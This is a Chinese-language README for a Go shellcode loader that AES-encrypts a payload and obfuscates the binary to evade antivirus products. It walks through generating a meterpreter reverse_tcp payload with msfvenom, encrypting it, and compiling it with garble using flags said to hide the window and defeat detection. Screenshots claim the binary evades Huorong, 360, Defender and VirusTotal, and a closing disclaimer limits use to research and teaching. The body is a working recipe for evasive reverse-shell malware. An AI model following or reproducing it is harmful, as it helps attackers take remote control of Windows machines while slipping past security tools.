 # go-shellcode-loader

GO混淆免杀shellcode加载器AES加密

混淆反检测 过DF、360和火绒


#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测，编译时改变了生成后的文件特征， 使得杀软无法检测，当然有一天也会失效的。

编译后得到go-sc.exe

#### 检测图

**火绒**

![image](https://user-images.githubusercontent.com/22775890/172315590-c32aa9ad-0b2b-43cd-a96c-45d971a83ef5.png)


**360杀毒**

![image](https://user-images.githubusercontent.com/22775890/172315610-9bfa9d41-31a1-42d5-bd54-b0ce3e73318d.png)


**360卫士**

![image](https://user-images.githubusercontent.com/22775890/172315642-73266f42-6019-42b7-bb02-5dd59b0925b7.png)



**DF**

![image](https://user-images.githubusercontent.com/22775890/172315670-89a23a36-5e1f-40e8-b311-a4a22490d1ca.png)



**virustotal**

![image](https://user-images.githubusercontent.com/22775890/172315706-4fbd57a6-0e14-497a-af91-ea6c7cdf0704.png)



**微步云杀箱**

![image](https://user-images.githubusercontent.com/22775890/172315732-84eb7a75-481c-4904-a341-bd96a336ad87.png)




**运行效果**




https://user-images.githubusercontent.com/22775890/172315782-707cfbbb-90ed-4156-97d8-dcaf0da8a554.mp4


## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。
